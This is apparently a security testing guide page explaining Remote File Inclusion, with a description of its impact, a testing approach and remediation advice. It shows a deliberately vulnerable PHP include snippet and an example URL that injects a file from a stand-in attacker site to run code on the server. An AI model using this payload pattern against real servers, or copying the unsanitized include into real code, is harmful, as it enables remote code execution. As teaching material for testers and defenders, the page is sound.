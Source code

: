 ## Summary

The File Inclusion vulnerability allows an attacker to include a file,
usually exploiting a "dynamic file inclusion" mechanisms implemented in
the target application. The vulnerability occurs due to the use of
user-supplied input without proper validation.

This can lead to something as outputting the contents of the file, but
depending on the severity, it can also lead to:

  - Code execution on the web server
  - Code execution on the client-side such as JavaScript which can lead
    to other attacks such as cross site scripting (XSS)
  - Denial of Service (DoS)
  - Sensitive Information Disclosure

**Remote File Inclusion** (also known as RFI) is the process of
including remote files through the exploiting of vulnerable inclusion
procedures implemented in the application. This vulnerability occurs,
for example, when a page receives, as input, the path to the file that
has to be included and this input is not properly sanitized, allowing
external URL to be injected. Although most examples point to vulnerable
PHP scripts, we should keep in mind that it is also common in other
technologies such as JSP, ASP and others.

## How to Test

Since RFI occurs when paths passed to "include" statements are not
properly sanitized, in a blackbox testing approach, we should look for
scripts which take filenames as parameters. Consider the following PHP
example:

    $incfile = $_REQUEST["file"];
    include($incfile.".php");

In this example the path is extracted from the HTTP request and no input
validation is done (for example, by checking the input against a white
list), so this snippet of code results vulnerable to this type of
attack. Consider infact the following URL:

```

http://vulnerable_host/vuln_page.php?file=http://attacker_site/malicous_page
```

In this case the remote file is going to be included and any code
contained in it is going to be run by the server.

## References

**Whitepapers**

  - “Remote File Inclusion” -
    <http://projects.webappsec.org/w/page/13246955/Remote%20File%20Inclusion>
  - Wikipedia: "Remote File Inclusion" -
    <http://en.wikipedia.org/wiki/Remote_File_Inclusion>

## Remediation

The most effective solution to eliminate file inclusion vulnerabilities
is to avoid passing user-submitted input to any filesystem/framework
API. If this is not possible the application can maintain a white list
of files, that may be included by the page, and then use an identifier
(for example the index number) to access to the selected file. Any
request containing an invalid identifier has to be rejected, in this way
there is no attack surface for malicious users to manipulate the path.